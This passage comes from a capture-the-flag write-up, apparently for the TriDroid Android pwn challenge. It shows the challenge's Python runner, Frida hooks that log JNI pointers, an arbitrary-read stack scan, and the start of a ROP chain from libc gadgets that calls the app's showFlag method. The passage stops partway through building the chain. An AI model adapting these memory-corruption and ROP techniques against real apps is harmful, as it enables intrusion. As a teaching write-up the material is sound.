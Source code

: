 ```py
def adb_logs():
    logs = adb(["logcat", "-d", "-s", "TriDroid"], True)
    for log in logs.decode("utf-8").strip().split("\n"):
        print_to_user(log)
...
print_to_user("Please enter your name encoded in base64:")

name = sys.stdin.readline().strip()
adb_broadcast("com.google.ctf.pwn.tridroid.SET_NAME", extras = {
    "data": name
})

print_to_user("Thank you! Check out the logs. This may take a while ...\n")

time.sleep(EXPLOIT_TIME_SECS)

adb_logs()

emulator.kill()
```
So, in summary we need to call java showFlag method in MainActivity to get the flag. Luckily, we have invokeJavaMethod helper function in libtridroid.

![invokeJavaMethod](https://files.catbox.moe/kxzzu9.png)

We still need to get jnienv and jobject pointers. This is where frida and our arb r/w can come in handy. First, we can add a hook to `Java_com_google_ctf_pwn_tridroid_MainActivity_manageStack__Ljava_lang_String_2_3B` and log jnienv and jobj ptr.
```js
Interceptor.attach(Module.getExportByName('libtridroid.so', 'Java_com_google_ctf_pwn_tridroid_MainActivity_manageStack__Ljava_lang_String_2_3B'), {
    onEnter(args) {
        console.log("jnienv", args[0]);
        console.log("jobj", args[1]);
    },
});
```
Then we can use arb read to read stack content and find jnienv and jobj ptr that we have from frida.
```js
for (let i = -0x1000; i < 0x1000; i += 8) {
	console.log(read(stack + BigInt(i));
}
```
After some logcat and frida session, we have -0x60 and -0x68 as offset from stack leak to JNIEnv and jobject pointer location on stack. All we need to do now is just craft the ROP. Since libtridroid doesn't have any useful gadgets, we can use libc to get some useful gadgets.
```js
leak = read(stack - 0x60n);
var JNIEnv = u64(leak);
console.log("JNIEnv", "0x" + JNIEnv.toString(16));
leak = read(stack - 0x68n);
var jobj = u64(leak);
console.log("jobj", "0x" + jobj.toString(16));

write(heap_n + 0x3070n, "73686f77466c616700") // showFlag
write(heap_n + 0x3080n, "28295600") // ()V

// 0x0000000000042c92: pop rdi; ret;
// 0x0000000000042d38: pop rsi; ret;
// 0x0000000000046175: pop rdx; r2et;
// 0x0000000000042e58: pop rcx; ret;
// 0x0000000000045e13: pop rax; ret;
var L_pop_rdi = libc_base + 0x42c92n;
```